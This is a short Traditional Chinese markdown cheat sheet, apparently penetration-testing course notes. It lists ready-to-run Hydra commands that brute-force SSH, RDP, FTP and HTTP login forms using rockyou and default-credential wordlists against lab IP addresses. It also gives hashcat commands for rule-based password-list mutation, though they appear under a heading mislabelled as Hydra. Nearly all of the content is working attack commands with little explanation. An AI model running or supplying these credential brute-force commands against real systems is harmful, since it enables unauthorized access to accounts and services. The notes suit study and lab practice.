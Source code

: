 >[!note] 本章重點
>有攻擊服務、密碼爆破、尋找密碼、字典檔變形
# 攻擊網路服務
>[!warning ] 小節重點
>利用Hydra、crackmapexec
## Hydra 
* Hydra攻擊ssh
```
sudo hydra -l george -P /usr/share/wordlists/rockyou.txt -s 2222 ssh://192.168.50.201
```
* Hydra攻擊rdp
```
sudo hydra -L /usr/share/wordlists/dirb/others/names.txt -p "SuperS3cure1337#" rdp://192.168.50.202
```
* Hydra攻擊 http post
```
sudo hydra -l user -P /usr/share/wordlists/rockyou.txt 192.168.50.201 http-post-form "/index.php:fm_usr=user&fm_pwd=^PASS^:Login failed. Invalid"
```
```
sudo hydra -L custom-wordlist.list -P custom-wordlist.list 192.168.243.61 -s 8081 http-post-form "/service/rapture/session:username=^USER64^&password=^PASS64^:F=403" -f  -I -vV
```
```
hydra -I -f -L custom-wordlist.txt -P custom-wordlist.txt 'http-post-form://192.168.233.61:8081/service/rapture/session:username=^USER64^&password=^PASS64^:C=/:F=403'
```
```
hydra 10.11.1.250 -t 2 -l admin -P /usr/share/wordlists/rockyou.txt http-form-get "/dvwa/vulnerabilities/brute/index.php:username=^USER^&password=^PASS^&Login=Login:Username and/or password incorrect.:H=Cookie: security=low;PHPSESSID=409e45633a8281adb8f182021cfacd14"
```
* Hydra攻擊 http get
```
hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.190.201 http-get -f -V
```
- Hydra攻擊FTP
```
hydra -c /usr/share/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt 10.10.10.1 ftp 
```
# 幫字典檔形變
>[!warning ] 小節重點
>利用Hydra、JohnTheRapper
## Hydra相關
>[!warning ] 小節重點
>hashcat 相關應用

### Hydra爆破時套用變形檔
```
hashcat -m 0 hash.txt password.list -r rule_demo.rule --force
```
### 利用Hydra製作變形檔
```
hashcat --force password.list -r custom.rule --stdout | sort -u > mut_password.list
```

